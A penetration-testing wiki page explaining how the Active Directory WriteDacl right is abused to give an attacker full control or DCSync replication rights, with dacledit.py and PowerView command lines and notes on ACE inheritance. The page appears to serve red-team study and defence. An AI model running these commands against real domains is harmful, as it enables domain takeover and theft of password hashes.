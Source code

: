 # Grant rights

This abuse can be carried out when controlling an object that has `WriteDacl` over another object.

The attacker can write a new ACE to the target object’s DACL (Discretionary Access Control List). This can give the attacker full control of the target object.&#x20;

Instead of giving full control, the same process can be applied to allow an object to [DCSync](../credentials/dumping/dcsync.md) by adding two ACEs with specific Extended Rights (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Giving full control leads to the same thing since `GenericAll` includes all `ExtendedRights`, hence the two extended rights needed for DCSync to work.

Story time, Exchange Servers used to have `WriteDacl` over domain objects, allowing attackers to conduct a [PrivExchange](../exchange-services/privexchange.md) attack where control would be gained over an Exchange Server which would then be used to grant an attacker-controlled object DCSync privileges to the domain.

{% hint style="info" %}
**ACE inheritance**

If attacker can write an ACE (`WriteDacl`) for a container or organisational unit (OU), if inheritance flags are added (`0x01+ 0x02`) to the ACE, and inheritance is enabled for an object in that container/OU, the ACE will be applied to it. By default, all the objects with `AdminCount=0` will inherit ACEs from their parent container/OU.

Impacket's dacledit (Python) can be used with the `-inheritance` flag for that purpose ([PR#1291](https://github.com/fortra/impacket/pull/1291)).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

:warning: _At the time of writing, May 2nd 2022, the_ [_Pull Request (#1291)_](https://github.com/SecureAuthCorp/impacket/pull/1291) _is still pending._

```bash
# Give full control
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' 'domain'/'user':'password'

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' 'domain'/'user':'password'
```

For a DCSync granting attack, instead of using dacledit, [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) has the ability to operate that abuse with the `--escalate-user` option (see [this](https://medium.com/@arkanoidctf/hackthebox-writeup-forest-4db0de793f96)).

To enable inheritance, the `-inheritance` switch can be added to the command. Then it is possible to find interesting targets with `AdminCount=0`in BloodHound for example, by looking at the object attributs.

```bash
# Give full control on the Users container with inheritance to the child object
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=Users,DC=domain,DC=local' -inheritance 'domain'/'user':'password'
```
{% endtab %}

{% tab title="Windows" %}
From a Windows system, this can be achieved with [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Give full control
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"

# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
```

{% hint style="info" %}
A few tests showed the `Add-DomainObjectAcl` command needed to be run with the `-Credential` and `-Domain` options in order to work
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync" %}
